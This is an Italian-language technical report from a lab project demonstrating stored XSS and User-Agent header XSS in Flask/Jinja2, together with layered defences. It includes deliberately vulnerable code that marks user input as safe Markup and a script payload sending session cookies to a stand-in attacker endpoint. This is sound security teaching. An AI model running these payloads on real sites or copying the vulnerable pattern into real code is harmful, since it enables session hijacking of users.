



# Report tecnico — Cross-Site Scripting: attacco e difesa

Progetto: **rovo**
Scopo: dimostrare in modo riproducibile due classi di attacco
**Cross-Site Scripting (XSS)** e l'efficacia delle relative misure di
difesa, in un ambiente containerizzato isolato.

---

## 1. Modello di minaccia

| Elemento            | Descrizione |
|---------------------|-------------|
| **Asset protetto**  | Cookie di sessione (`session_id`) dell'utente vittima e, piu in generale, l'esecuzione di codice arbitrario nel contesto della pagina della webapp `rovo`. |
| **Attaccante**      | Utente remoto non autenticato che puo (a) inviare richieste HTTP arbitrarie alla webapp, (b) controllare il proprio User-Agent. |
| **Vittima**         | Utente legittimo che visita la webapp con un browser moderno. |
| **Trust boundary**  | Il browser della vittima si fida del contenuto servito dal dominio della webapp. Una XSS rompe questa fiducia: codice attaccante viene eseguito con i privilegi del dominio. |
| **Mappatura ATT&CK**| Initial Access via Drive-by Compromise (T1189); Credential Access via Steal Web Session Cookie (T1539); Defense Evasion via Hijack Execution Flow (T1574) limitata al contesto browser. |

---

## 2. Attacchi implementati

### 2.1 Stored XSS — CAPEC-592 / CWE-79

**Endpoint vulnerabile:** `POST /guestbook` (insert) + `GET /guestbook` (render).

#### Causa radice nel codice

`vulnerable/app.py` salva il body cosi com'e e lo passa al template
come `Markup`, dicendo a Jinja2 di NON eseguire l'escape HTML:

```python
comments = [
    {
        "author": Markup(r["author"]),   # vulnerabilita
        "body":   Markup(r["body"]),     # vulnerabilita
        ...
    }
    for r in rows
]
```

Nel template `guestbook.html`:

```jinja
<div>{{ c.body }}</div>
```

Senza `Markup`, Jinja2 fa l'escape automatico (`<` -> `&lt;`). Con
`Markup`, il contenuto del DB viene inserito letteralmente nell'HTML.

#### Payload

Furto del cookie di sessione, sfruttando il fatto che `session_id`
nella versione vulnerabile **non e HttpOnly**:

```html
<script>
new Image().src = "http://localhost:9000/steal?c="
                + encodeURIComponent(document.cookie);
</script>
```

Quando una qualsiasi vittima carica `/guestbook`, il browser:

1. Trova `<script>...` nell'HTML del DOM.
2. Lo esegue nel contesto del dominio `localhost:8080`.
3. Effettua una GET verso il server attaccante con il cookie come
   query string.

Il container `attacker` lo registra e lo mostra a
<http://localhost:9000>.

#### Impatto reale

- **Session hijacking**: l'attaccante puo riusare il cookie per
  impersonare la vittima.
- **Account takeover** se la sessione corrisponde a un utente
  autenticato.
- **Defacement / phishing** persistente: il payload e salvato in DB,
  ogni visitatore lo subisce.

### 2.2 HTTP Header XSS via User-Agent — CAPEC-86 / CWE-79

**Endpoint vulnerabile:** `GET /welcome`.

#### Causa radice nel codice

```python
raw_ua = request.headers.get("User-Agent", "")
unsafe_ua = Markup(raw_ua)   # vulnerabilita
return render_template("welcome.html", user_agent=unsafe_ua)
```

L'header `User-Agent` e controllato dall'attaccante: basta cambiarlo
nel proprio client (curl, DevTools del browser) per iniettare HTML
arbitrario nella response.

#### Payload

```bash
curl -A '<script>alert("UA-XSS")</script>' http://localhost:8080/welcome
```

#### Vettore realistico

Da solo, curl non e una "vittima": l'attaccante e l'unico a vedere la
response. Il vettore reale e una di queste situazioni:

- **Cache poisoning** (CWE-444 / CAPEC-141): un proxy/CDN cacha la
  response con il payload e la serve a vittime successive con UA
  legittimo. La pagina avvelenata viene servita anche a chi non ha
  inviato lo UA malevolo.
- **Log injection -> XSS sui pannelli di amministrazione**: alcuni
  pannelli mostrano lo User-Agent come parte del log. Lo stesso
  payload viene eseguito quando un amministratore consulta i log.
- **Header smuggling / proxy**: in alcuni scenari un attaccante puo
  controllare lo User-Agent osservato dall'upstream pur non avendone
  controllo diretto.

In questo lab basta cambiare lo User-Agent del proprio browser
(DevTools -> Network conditions -> User agent) e aprire `/welcome`
per vedere il payload eseguito.

---

## 3. Misure di difesa applicate (cartella `secure/`)

Nessuna singola difesa e sufficiente: si applica **difesa in
profondita**, in cui ogni livello blocca da solo l'attacco.

### 3.1 Output encoding (difesa primaria) — CWE-116

`secure/app.py` non avvolge mai gli input utente in `Markup`. Jinja2
applica autoescape e converte i metacaratteri HTML:

| Input | Output renderizzato |
|-------|---------------------|
| `<script>alert(1)</script>` | `&lt;script&gt;alert(1)&lt;/script&gt;` |
| ``   | `&lt;img src=x onerror=...&gt;` |

Il browser mostra il payload come testo, non come HTML/JS.

> Riferimento: OWASP XSS Prevention Cheat Sheet, Rule #1 (HTML escape
> before inserting untrusted data into HTML element content).

### 3.2 Input validation / whitelist — CWE-20

```python
MAX_AUTHOR_LEN = 64
MAX_BODY_LEN   = 2000
_UA_ALLOWED = re.compile(r"[^\w\s\.\-_/();:,+]")
```

- Lunghezza massima per ogni campo del guestbook.
- Whitelist di caratteri ammessi nello User-Agent prima di mostrarlo:
  un payload con `<`, `>`, `"` perde immediatamente i caratteri
  necessari al breakout HTML.

L'input validation NON sostituisce l'output encoding (un payload
potrebbe usare solo caratteri "sicuri"): e una difesa aggiuntiva.

### 3.3 Content-Security-Policy — CWE-1021

```
Content-Security-Policy: default-src 'self'; script-src 'self';
                         style-src 'self' 'unsafe-inline';
                         img-src 'self' data:;
                         object-src 'none'; base-uri 'none';
                         frame-ancestors 'none';
```

Effetti rilevanti:

- `script-src 'self'`: blocca tutti gli **inline script** (anche se un
  attaccante riuscisse a iniettare `<script>`).
- `script-src 'self'`: blocca script da domini esterni.
- `img-src 'self' data:`: il payload classico
  `new Image().src = "http://attacker/..."` viola la policy e
  l'esfiltrazione fallisce.
- `object-src 'none'`: blocca `<object>`, `<embed>`, `<applet>`.
- `frame-ancestors 'none'`: previene clickjacking.

La CSP e una **difesa di seconda linea**: anche se l'escape fosse
buggato, lo script non puo essere eseguito.

### 3.4 Cookie HttpOnly + SameSite=Strict — CWE-1004

```python
response.set_cookie(
    "session_id", "...",
    httponly=True,
    samesite="Strict",
)
```

- `HttpOnly`: il cookie non e visibile da `document.cookie`. Anche se
  uno script attaccante venisse eseguito, non puo leggere il cookie.
- `SameSite=Strict`: il cookie non viene inviato in richieste
  cross-site, mitigando l'uso del cookie rubato da altri origin.

### 3.5 Altri header di hardening

| Header                   | Valore        | Effetto |
|--------------------------|---------------|---------|
| `X-Content-Type-Options` | `nosniff`     | Disabilita MIME sniffing; previene esecuzione di file caricati come testo. |
| `X-Frame-Options`        | `DENY`        | Previene framing della pagina (anti clickjacking). |
| `Referrer-Policy`        | `no-referrer` | Limita la fuga di informazione tramite Referer. |
| `Permissions-Policy`     | `geolocation=(), microphone=(), camera=()` | Disabilita API browser sensibili. |

### 3.6 Sanitizzazione header User-Agent

Specifica per l'attacco CAPEC-86: lo UA viene troncato e passato per
una whitelist regex prima di essere reso, anche se Jinja2 fa gia
l'escape. E' un livello di difesa ridondante per ridurre rumore in
log e per disinnescare payload con caratteri di controllo non
stampabili.

---

## 4. Prova empirica dell'efficacia

`./attacks/run_attacks.sh` esegue lo stesso payload contro entrambe le
applicazioni. Tutti gli screenshot della demo si trovano in
[`docs/screenshots/`](screenshots/).

Risultati osservati:

### Stored XSS

**Vulnerable** (`/guestbook` dopo l'injection):

```html
<div><script>new Image().src="http://localhost:9000/steal?c="
+encodeURIComponent(document.cookie);alert("XSS-rovo: cookie="+document.cookie)</script></div>
```

Il browser esegue lo script: mostra l'alert con il cookie e invia il
cookie al container `attacker`.



Il container `attacker` registra il cookie ricevuto dalla vittima:



**Secure** (`/guestbook` dopo lo stesso POST):

```html
<div>&lt;script&gt;new Image().src=&#34;http://localhost:9000/steal?c=&#34;
+encodeURIComponent(document.cookie)&lt;/script&gt;</div>
```

Il browser mostra testo letterale: nessun alert, nessuna richiesta
verso il server attaccante.



Anche immaginando che l'escape fallisse, la CSP rifiuta `<script>`
inline e nega `img-src` verso `localhost:9000`. Inoltre
`document.cookie` non vede il cookie HttpOnly: l'attacco fallisce a
tre livelli indipendenti (difesa in profondita).

### HTTP Header XSS

**Vulnerable** (`curl -A '<script>alert(1)</script>' /welcome`):

```html
<strong>User-Agent:</strong> <script>alert(1)</script>
```

**Secure** (stesso payload):

```html
<strong>User-Agent:</strong> scriptalert1script
```

Lo UA e stato sanitizzato (rimozione di `<`, `>`, spazi non
ammessi). Anche senza sanitizzazione, Jinja2 farebbe l'escape.

Header di response della versione sicura:

```
Content-Security-Policy: default-src 'self'; script-src 'self'; ...
X-Content-Type-Options:  nosniff
X-Frame-Options:         DENY
Referrer-Policy:         no-referrer
Permissions-Policy:      geolocation=(), microphone=(), camera=()
```

---

## 5. Mappatura difese / debolezze

| Difesa applicata             | CWE mitigato | Attacco neutralizzato       |
|------------------------------|--------------|-----------------------------|
| Output encoding (Jinja2)     | CWE-79, CWE-116 | Stored XSS, Header XSS  |
| Input validation             | CWE-20       | Riduce superficie payload   |
| Content-Security-Policy      | CWE-79, CWE-1021 | Stored XSS, Header XSS  |
| Cookie HttpOnly              | CWE-1004     | Furto cookie via JS         |
| Cookie SameSite=Strict       | CWE-352      | Replay del cookie cross-site|
| X-Content-Type-Options       | CWE-430      | MIME confusion              |
| X-Frame-Options              | CWE-1021     | Clickjacking                |
| Referrer-Policy              | CWE-200      | Leak via Referer            |
| Sanitizzazione UA            | CWE-79       | Header XSS                  |

---

## 6. Limiti e lavori successivi

- Il lab non include un WAF: nella realta un Web Application Firewall
  e un'ulteriore linea di difesa, ma non sostituisce le mitigazioni
  applicative.
- Non e implementato CSRF token: ortogonale a XSS ma combinabile.
- La CSP usa `style-src 'unsafe-inline'` per semplicita del CSS demo;
  in produzione si userebbe un nonce/hash per ogni `<style>` o file
  esterno.
- Non viene gestito DOM-based XSS (categoria piu rara in app
  server-rendered come questa): per applicazioni SPA andrebbe aggiunta
  una review del codice client-side che usa `innerHTML`, `eval`, etc.
- Non viene coperto Reflected XSS via query string, ma le difese
  (output encoding + CSP) sarebbero le stesse.

---

## 7. Riferimenti

- CAPEC-592 — Stored XSS:
  <https://capec.mitre.org/data/definitions/592.html>
- CAPEC-86 — XSS Through HTTP Headers:
  <https://capec.mitre.org/data/definitions/86.html>
- CWE-79 — Improper Neutralization of Input During Web Page Generation:
  <https://cwe.mitre.org/data/definitions/79.html>
- MITRE ATT&CK T1539 — Steal Web Session Cookie:
  <https://attack.mitre.org/techniques/T1539/>
- OWASP XSS Prevention Cheat Sheet:
  <https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html>
- OWASP Content Security Policy Cheat Sheet:
  <https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html>
- Mozilla MDN — `Content-Security-Policy`:
  <https://developer.mozilla.org/docs/Web/HTTP/Headers/Content-Security-Policy>
